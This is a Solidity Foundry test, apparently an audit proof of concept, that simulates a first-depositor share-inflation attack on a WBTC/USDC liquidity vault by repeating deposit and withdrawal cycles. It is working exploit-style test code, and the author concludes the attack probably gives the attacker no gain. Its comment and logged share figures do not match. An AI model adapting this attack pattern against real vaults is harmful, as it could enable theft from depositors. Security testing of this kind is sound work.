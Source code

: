 ```solidity

    // run with:
    // forge test --match-path test/forge/ConcLiqTests/ConcLiqWBTCUSDC.t.sol --fork-url https://rpc.ankr.com/eth -vvv
    function test_FirstDepositorCanInflateTheirShares() public {
        uint256 ATKR_INIT_BTC  = 1e8;
        uint256 ATKR_INIT_USDC = 60000e6;

        deal(address(token0), attacker, ATKR_INIT_BTC);
        deal(address(token1), attacker, ATKR_INIT_USDC);

        // attacker is the first depositor
        deposit(attacker, false, ATKR_INIT_BTC, ATKR_INIT_USDC);
        // log attacker's initial shares
        uint256 attackerInitialShares = vault.balanceOf(attacker);
        console.log(attackerInitialShares); // 126933306417

        // attacker now repeatedly recycles their tokens
        // through multiple cycles of deposits & withdrawals
        // to massively inflate their share count
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));
        withdraw(attacker, 0);
        deposit(attacker, false, IERC20(token0).balanceOf(attacker), IERC20(token1).balanceOf(attacker));

        uint256 attackerInflatedShares = vault.balanceOf(attacker);
        console.log(attackerInflatedShares); // 10593553436750

        // Through repeated deposits & withdraws, the attacker as
        // the first depositor has inflated their share count from:
        // initial: 126933306417
        // now    : 10577774612583

        // innocent user deposits their tokens
        deal(address(token0), user, ATKR_INIT_BTC);
        deal(address(token1), user, ATKR_INIT_USDC);

        deposit(user, false, ATKR_INIT_BTC, ATKR_INIT_USDC);

        // log user's initial shares
        uint256 userInitialShares = vault.balanceOf(user);
        console.log(userInitialShares); // 10577775729666

        // this attack doesn't seem to benefit the first depositor
        // since the user who subsequently deposits gets a similar
        // amount of shares.
    }

```
